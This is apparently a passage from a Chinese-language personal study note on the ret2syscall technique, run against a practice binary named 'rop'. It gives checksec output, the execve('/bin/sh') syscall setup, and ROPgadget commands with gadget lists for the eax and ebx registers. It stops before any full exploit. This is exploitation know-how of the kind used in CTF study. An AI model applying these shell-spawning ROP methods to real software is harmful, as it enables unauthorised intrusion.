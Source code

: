 ### ret2syscall

原理

ret2syscall，即控制程序执行系统调用，获取 shell。

系统调用。。需要重温计组了。

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

利用 `execve("/bin/sh",NULL,NULL)` 获取shell。

其中，系统调用号为 `0xb` ，第一个参数为 `/bin/sh` 的地址，第二、三个参数均为0。

我们用ROPgadgets以控制这些寄存器。

首先寻找控制 `$eax` 的 gadgets：

```bash
ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
```

得到：

```bash
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

wp选取第二个作为gadgets。

接下来寻找 `$ebx` 的gadgets：

```bash
ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
```

得到：

```bash
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```